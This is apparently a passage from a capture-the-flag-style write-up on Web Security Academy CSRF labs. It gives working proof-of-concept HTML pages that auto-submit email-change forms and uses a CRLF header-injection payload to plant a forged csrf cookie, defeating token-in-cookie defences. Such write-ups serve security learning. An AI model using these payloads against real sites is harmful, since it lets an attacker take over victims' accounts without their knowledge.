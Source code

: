 **Proof of Concept — POC:**

```html
<html>
  <body>
    <form action="<https://0a1b00ef041f51bf82e6e49b002f00f7.web-security-academy.net/my-account/change-email>" method="POST">
      <input type="hidden" name="email" value="user2&#64;email&#46;com" />
      <input type="hidden" name="csrf" value="9h5vwANK7MiQSftMonuRzW8FOC9JPzdt" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="<https://0a1b00ef041f51bf82e6e49b002f00f7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Y4qLpaS6xXTHtlGsd9f4f93mIUfmDh92%3b%20SameSite=None>" onerror="document.forms[0].submit()">
  </body>
</html>

```

### CSRF token is replicated within a cookie

If a CSRF token is merely duplicated in a cookie without additional safeguards, it can pave the way for potential CSRF exploits as it lacks protection against certain attack vectors.

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com

```

In this scenario, the attacker can conduct a CSRF attack without needing a valid token of their own. They fabricate a token, possibly matching the required format if checked, utilize cookie-setting functionality to insert their cookie into the victim's browser, and then supply their token to the victim in the CSRF attack.

This POST request reveals that the `CSRF Token` is replicated from the cookie.

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/9ad492da-9fe0-4e1e-afc8-f15ed70783ac/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/9ad492da-9fe0-4e1e-afc8-f15ed70783ac/Untitled.png)

HTTP Header Injection can be exploited here to alter the `csrf` cookie, subsequently causing the `CSRF Token` to automatically adjust to match the cookie value.

```
/?search=test%0d%0aSet-Cookie:%20csrf=n1ghtm4r3%3b%20SameSite=None

```

**Proof of Concept — POC:**

```html
<html>
  <body>
    <form action="<https://0a1000ff0374d951822e5b7b00940015.web-security-academy.net/my-account/change-email>" method="POST">
      <input type="hidden" name="email" value="user1&#64;email&#46;com" />
      <input type="hidden" name="csrf" value="n1ghtm4r3" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="<https://0a1000ff0374d951822e5b7b00940015.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=n1ghtm4r3%3b%20SameSite=None>" onerror="document.forms[0].submit();"/>
  </body>
</html>

```